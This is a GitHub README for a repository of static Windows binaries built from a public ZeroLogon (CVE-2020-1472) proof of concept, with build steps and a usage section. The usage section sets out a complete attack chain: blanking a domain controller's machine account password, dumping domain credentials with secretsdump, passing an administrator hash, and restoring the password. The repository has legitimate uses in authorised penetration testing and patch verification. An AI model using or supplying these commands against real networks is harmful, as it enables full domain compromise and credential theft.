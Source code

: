 # ZeroLogon - dirkjanm CVE-2020-1472 static binaries

### Description

This repository contains static standalone binaries for Windows (x64) of
[dirkjanm's CVE-2020-1472 POC](https://github.com/dirkjanm/CVE-2020-1472)
Python scripts: `cve-2020-1472-exploit.exe` and `restorepassword.exe`. All
credit goes to Tom Tervoort for the
[original research](https://www.secura.com/blog/zero-logon) and
Dirk-jan Mollema for the Python scripts.

The build process is heavily based on work from [ropnop's
impacket_static_binaries](https://github.com/ropnop/impacket_static_binaries).
It uses [PyInstaller](http://www.pyinstaller.org/), executed in
[cdrx's docker image](https://github.com/cdrx/docker-pyinstaller).

### Build the binaries yourself

The binaries can be build directly from sources using the provided `Makefile`
and `build_windows.sh` script after installing the `cdrx/pyinstaller-windows`
docker image. The binaries will be placed in the `tmp_build` folder.

```
docker pull cdrx/pyinstaller-windows

make windows
```

### Usage

```
# Sets an empty password for the targeted DC machine account.
cve-2020-1472-exploit.exe "<DC_NETBIOS_NAME>" "<DC_IP>"

# DCSync using the DC machine account.
# Static version of secretsdump.py: https://github.com/ropnop/impacket_static_binaries
secretsdump_windows.exe -just-dc -no-pass "<DOMAIN>/<DC_MACHINE_ACCOUNT$>@<DC_IP>"

# Retrieves the original DC machine account password.
# A secretsdump.exe binary built after impacket's September 15th 2020 update should be used (as it will automatically dump the plaintext machine password hex encoded required for the restoration).
secretsdump_windows.exe -hashes ":<NTLM>" "<DOMAIN>/<Administrator | DA_USERNAME>@<DC_IP>"

# Restores the DC machine account's original password.
restorepassword.exe -target-ip "<DC_IP>" -hexpass "<DC_MACHINE_ACCOUNT_HEX_PASSWORD>" "<DOMAIN>/<DC_HOSTNAME>@<DC_HOSTNAME>"
```

### TODO

  - Linux standalone binaries
